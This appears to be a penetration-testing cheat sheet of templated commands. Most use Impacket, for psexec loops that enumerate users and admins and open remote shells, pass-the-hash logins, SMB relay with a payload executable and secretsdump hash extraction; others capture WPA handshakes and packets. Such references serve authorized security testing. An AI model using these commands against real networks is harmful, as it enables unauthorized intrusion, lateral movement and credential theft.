 ### 1. loop for who is where
```
for host in $(cat userhosts.txt); do echo $host; psexec.py [DOMAIN]/[user]:'[pass]'@$host 'WMIC ComputerSystem Get UserName'; done | tee loggedin-dirty.txt;cat loggedin-dirty.txt | grep -v "^\[" | grep -v "^Impacket" | grep -v "^Trying" | grep -v "SMB SessionError" | sed '/^$/d'
```
**- loop,enumeration,user information,smb,impacket**
#### References:

https://yg.ht
https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 2. loop to look for dual homed hosts
```
for host in $(cat ../nmap/IPs-SMB.txt); do echo $host; psexec.py [DOMAIN]/[user]:'[pass]'@$host "ipconfig"; done | grep "IPv4 Address\|Ethernet adapter\|^[0-9]" | sed '/^$/d' | tee dualhomed-search.txt
```
**- networking,loop,enumeration,impacket**
#### References:

https://yg.ht
https://technet.microsoft.com/en-gb/library/bb490921.aspx
__________
### 3. loop to find local admins
```
for i in `cat smb_up `; do timeout 10 psexec.py [user]:[pass]@$i net localgroup administrators; done | tee local_admin_information
```
**- linux,loop,enumeration,user information,impacket**
#### References:

https://technet.microsoft.com/en-us/library/bb490706.aspx
__________
### 4. connect to mssql
```
/opt/impacket/examples/mssqlclient.py [user]:[pass]@[ip] -port [port]
```
**- linux,mssql,impacket**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 5. loop around and open cmd, Psexecy.py != psexec msf != sysinternals psexec
```
for host in $(cat hosts.txt); do psexec.py [DOM]/[USER]:'[PASS]'@$host "cmd.exe"; done
```
**- linux,loop,impacket,remote command shell**
#### References:

https://yg.ht
https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 6. PSExec with hashses
```
psexec.py -hashes [LM]:[NTLM] [DOM]/[USER]@[TARGET] "cmd.exe"
```
**- linux,impacket,remote command shell,hashes**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 7. TCPDump (no DNS resolution)
```
tcpdump -n -i [interface]
```
**- networking,packet capture**
#### References:

http://rationallyparanoid.com/articles/tcpdump.html
https://www.cyberciti.biz/faq/tcpdump-capture-record-protocols-port/
__________
### 8. WIFI WPA handshake capture
```
airodump-ng -c [Channel #] --bssid [MAC Address] --showack -w [SSID] wlan1mon
```
**- linux,networking,wireless,wifi,packet capture**
#### References:

https://www.aircrack-ng.org/doku.php?id=cracking_wpa
__________
### 9. smbrelay targeted
```
smbrelayx.py -h [TARGETIP] -e [PAYLOAD exe]
```
**- linux,smb,MitM,Windows,impacket,privilege escalation**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 10. smbrelay reflection : note read into http -> smb refelction
```
smbrelayx.py -e [PAYLOAD exe]
```
**- linux,smb,MitM,Windows,impacket,privilege escalation**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 11. capture ping replies
```
tcpdump -i ethO 'icmp[icmptype] == icmp-echoreply'
```
**- linux,packet capture**
#### References:

http://rationallyparanoid.com/articles/tcpdump.html
__________
### 12. Parse the SYSTEM and ntds with impacket
```
secretsdump.py  -hashes LMHASH:NTHASH -system ../SYSTEM -ntds ../ntds.dit local | tee hashes
```
**- Windows,impacket,hashes**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 13. replay packets to network
```
file2cable -i eth0 -f [file]
```
**- linux,networking,packet capture**
#### References:

http://manpages.ubuntu.com/manpages/xenial/man1/file2cable.1.html
__________
### 14. List users of the remote system
```
samrdump.py -hashes [LMHASH:NTHASH] [user]:[pass]@[victim]
```
**- linux,enumeration,impacket**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
